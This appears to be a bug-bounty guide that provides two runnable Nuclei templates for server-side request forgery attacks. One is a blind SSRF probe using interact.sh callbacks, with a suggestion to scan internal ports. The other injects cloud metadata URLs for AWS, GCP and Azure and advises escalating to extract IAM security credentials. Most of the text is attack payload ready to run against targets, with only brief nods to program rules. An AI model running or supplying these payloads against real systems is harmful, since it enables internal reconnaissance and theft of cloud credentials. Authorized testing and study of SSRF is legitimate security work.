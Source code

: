 Below are custom advanced SSRF templates inspired by real-world methodologies, including cloud metadata probing, blind OOB, protocol smuggling (e.g., gopher for Redis), IP obfuscation bypasses, and chaining with open redirects. These use Nuclei's HTTP requests, matchers (e.g., DSL for OOB), and interact.sh integration for callbacks. Save as .yaml files and run via `nuclei -u http://target.com -t template.yaml -rl 10` (adjust rate limit for ethics). Always validate findings manually (e.g., with Burp Collaborator) and respect program rules to avoid bans.

#### 1. **Blind SSRF with OOB Detection**
   - **Use Case**: Detects blind SSRF where no response is echoed, but side effects (e.g., DNS/HTTP callbacks) confirm exploitation. Ideal for API params like `?url=` in cloud-heavy programs.
   - **Template** (blind-ssrf-oob.yaml):
     ```yaml:disable-run
     id: blind-ssrf-oob
     info:
       name: Blind SSRF with OOB Callback
       author: custom-hunter
       severity: high
       tags: ssrf, blind, oob
     http:
       - method: GET
         path:
           - "{{BaseURL}}?url={{interactsh-url}}"
         matchers:
           - type: dsl
             dsl:
               - "contains(interactsh_protocol, 'http') || contains(interactsh_protocol, 'dns')"
     ```
   - **How It Works**: Sends a request to your interact.sh domain; matches on callback protocols. In bug bounty, chain with internal port scanning (e.g., modify path to `?url=127.0.0.1:{{port}}` in a fuzzed version). Payout potential: $2,000+ for confirmed internal access.

#### 2. **Cloud Metadata SSRF (AWS/GCP/Azure)**
   - **Use Case**: Probes for SSRF accessing cloud instance metadata, common in misconfigured AWS/GCP/Azure-hosted apps. High-reward in enterprise programs.
   - **Template** (cloud-metadata-ssrf.yaml):
     ```yaml
     id: cloud-metadata-ssrf
     info:
       name: Cloud Metadata SSRF (AWS/GCP/Azure)
       author: custom-hunter
       severity: critical
       tags: ssrf, cloud, metadata
     http:
       - method: GET
         path:
           - "{{BaseURL}}?url=http://169.254.169.254/latest/meta-data/"  # AWS
           - "{{BaseURL}}?url=http://169.254.169.254/computeMetadata/v1/"  # GCP
           - "{{BaseURL}}?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01"  # Azure
         matchers:
           - type: word
             words:
               - "ami-id"  # AWS
               - "project-id"  # GCP
               - "vmId"  # Azure
             condition: or
           - type: status
             status:
               - 200
     ```
   - **How It Works**: Tests multiple cloud endpoints; matches on provider-specific keywords. Escalate by extracting creds (e.g., add `/iam/security-credentials/` for AWS). Use in recon after identifying cloud-hosted subdomains.
